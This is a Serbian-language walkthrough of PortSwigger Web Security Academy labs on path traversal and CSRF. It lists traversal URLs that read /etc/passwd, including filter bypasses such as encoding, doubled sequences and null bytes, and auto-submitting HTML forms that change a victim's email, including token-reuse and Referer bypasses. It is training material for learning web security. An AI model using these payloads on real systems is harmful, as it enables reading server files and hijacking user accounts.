 ## Path Traversal zadaci

#### Lab: File path traversal, simple case

- U network tab-u je moguće primetiti da se slike dobavljaju slanjem naziva fajla preko adrese: `https://LAB_ID.web-security-academy.net/image?filename=30.jpg`

![alt text](img/task1.png)

- Zamenom 30.jpg za neku drugu putanju možemo izvršiti Path traversal napad i pročitati `/etc/passwd`
- Koristićemo relativnu putanju sa varijabilnim brojem `../` da bismo se vratili u root: `https://LAB_ID.web-security-academy.net/image?filename=../../../../../../etc/passwd`

![alt text](img/task1_res.png)

---

#### Lab: File path traversal, traversal sequences blocked with absolute path bypass

- Ako napad pomoću relativnih putanja ne uspe zbog validacije za `../` sekvence možemo pokušati sa apsolutnom putanjom
- Koristićemo sledeći url: `https://LAB_ID.web-security-academy.net/image?filename=/etc/passwd`

---

#### Lab: File path traversal, traversal sequences stripped non-recursively

- Ako procesiranje putanje uklanja sekvence `../` možemo probati sa dupliranjem karaktera: `....//....//....//etc/passwd`
- Koristićemo url: `https://LAB_ID.web-security-academy.net/image?filename=....//....//....//etc/passwd`

---

#### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

- Još jedan način probijanja validacije su enkodirani karakteri / = `%252f` . = `%252e`
- Koristićemo url: `https://LAB_ID.web-security-academy.net/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd`

---

#### Lab: File path traversal, validation of start of path

- Ako validacija proverava samo početak putanje, možemo ubaciti `../` u sredini
- Koristićemo url: `https://LAB_ID.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd`

---

#### Lab: File path traversal, validation of file extension with null byte bypass

- Ako validacija proverava ekstenziju fajla, možemo koristiti null byte i tako prekinuti putanju (`%00`)
- Koristićemo url: `https://LAB_ID.web-security-academy.net/image?filename=../../../etc/passwd%00.jpg`


### CSRF zadaci

#### [Lab: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

- Ulogujemo se sa datim kredencijalima i promenimo email u My account
- U Network tabu možemo da primetimo nedostatak csrf tokena u telu zahteva

![alt text](img/task3.png)

- Odemo na "exploit server" i postavimo sledeći body zahteva koji će se momentalno izvršiti kada ga korisnik učita. Ovime ćemo poslati zahtev za promenu email-a žrtve pod pretpostavkom da se sesija vodi pomoću Cookie.

```html
<html>
<body>
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@gmail.com">
</form>
<script>
    document.forms[0].submit();
</script>
</body>
</html>
```
- Ovde nema nikakve zaštite od CSRF

---

#### [Lab: CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

- U slučaju da postoji zaštita od CSRF samo za određene tipove zahteva (POST) možemo probati napad pomoću GET metoda
- U exploit serveru postavljamo telo zahteva koji šalje zahtev preko GET metode

```html
<html>
<body>
<form method="GET" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@gmail.com">
</form>
<script>
    document.forms[0].submit();
</script>
</body>
</html>
```

---

#### [Lab: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)

- Ako postoji zaštita od CSRF putem tokena ali sa propustom da se ne validira slučaj kada CSRF token nije pristup možemo koristiti istu formu za slanje kao u prvom zadatku

---

#### [Lab: CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)

- U slučaju da postoji validacija CSRF tokena ali on nije vezan za korisničku sesiju, napadač može da iskoristi svoj validan CSRF token
- U Network tabu možemo da vidimo CSRF token napadača i zatim ga iskoristimo prilikom pravljenja body requesta na exploit serveru

![alt text](img/task4.png)

```html
<html>
<body>
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@gmail.com">
    <input type="hidden" name="csrf" value="CSRF_NAPADAČA">
</form>
<script>
    document.forms[0].submit();
</script>
</body>
</html>
```

---

#### [Lab: CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)

- Neke aplikacije se oslanjaju na validaciju zahteva pomoću `Referer` zaglavlja i proveravaju sa kog domena je došao zahtev
- Validacija može da validira da li `Referer` zaglavlje samo sadrži dozvoljen domen i u tom slučaju možemo da napravimo zahtev koji ignoriše pravi domen (pomoću query parametra recimo)

![alt text](img/task5.png)

- Da bismo izmenili vrednost zaglavlja možemo da koristimo sledeću JavaScript funkciju: `history.pushState("", "", "/?LAB_ID.web-security-academy.net")` koja će da nalepi tekst ispravnog domena na naš
- Validacija će ovo da previdi jer samo proverava da li Referer sadrži domen `LAB_ID.web-security-academy.net`
- Body zahteva na exploit serveru izgleda:

```html
<html>
<body>
<script>
    history.pushState('', '', '/?LAB_ID.web-security-academy.net');
</script>
<form action="https://LAB_ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="attacker@gmail.com" />
</form>
<script>
    document.forms[0].submit();
</script>
</body>
</html>
```

